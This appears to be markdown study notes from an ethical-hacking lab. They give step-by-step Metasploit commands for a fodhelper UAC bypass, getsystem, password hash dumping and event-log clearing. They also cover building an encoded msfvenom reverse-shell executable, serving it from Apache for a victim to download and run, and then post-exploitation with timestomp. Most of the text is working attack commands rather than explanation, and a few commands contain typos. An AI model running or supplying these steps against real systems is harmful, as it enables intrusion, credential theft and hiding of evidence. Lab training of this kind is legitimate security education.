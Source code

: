 | Seatbelt.exe {Command} {Command2}... | Run one or more specified commands                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| Seatbelt.exe {Command} -full         | Gather complete result for a command without any filtering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
####  **Bypass Windows UAC protection via FodHelper Registry Key**
19. background
20. use exploit/windows/local/bypassuac_fodhelper
21. show options
22. set SESSION 1
23. set payload windows/meterpreter/reverse_tcp
24. set LHOST 10.10.11.10
25. set LPORT 4444
26. set TARGET 0
27. exploit
28. getuid
29. getsystem -t 1
30. getuid
> Dump users passwords hash
31. run post/windows/gather/smart_hashdump 
> Clear event logs
32. clearev

> [!NOTE]
> **multi/recon/local_exploit_suggester** module to identify potential vulnerabilities for privilege escalation.
> **windows/local/always_install_elevated**
> 




### Task 2: Hack a Windows Machine using Metasploit and  Perform Post-Exploitation using Meterpreter
---
**Parrot**
1. sudo su
2. msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.11.10 LPORT=4444 -f exe > /home/attacker/Desktop /Exploit.exe
3. mkdir /var/www/html/share
4. chmod -R 755 /var/www/html/share
5. chown -R www-data:www-data /var/www/hmtl/share
6. cp /home/attacker/Desktop/Exploit.exe /var/www/share
7. service apache2 start
8. msfconsole
9. use exploit/multi/handler
10. set payload windows/meterpreter/reverse_tcp
11. set LHOST 10.10.11.10
12. set LPORT 4444
13. exploit -j -z
**Windows**
14. In **Web Browser** visit **http://10.10.11.10/share**
15. Click & Download **Exploit.exe** 
16. Open **Exploit.exe**
**Parrot**
15. **Meterpreter Shell** will spawn
> If Meterpreter Shell is not spawn automatically then, type **sessions -i 1** and check shell.
16. sysinfo
17. ipconfig
> View the **current working** directory
18. pwd
19. cat {filename.txt}
> View **mace attributes** of {filename.txt} | **Displays Created time, Accessed time, Modified time, Entry Modified time**.
20. timestomp {filname.txt} -v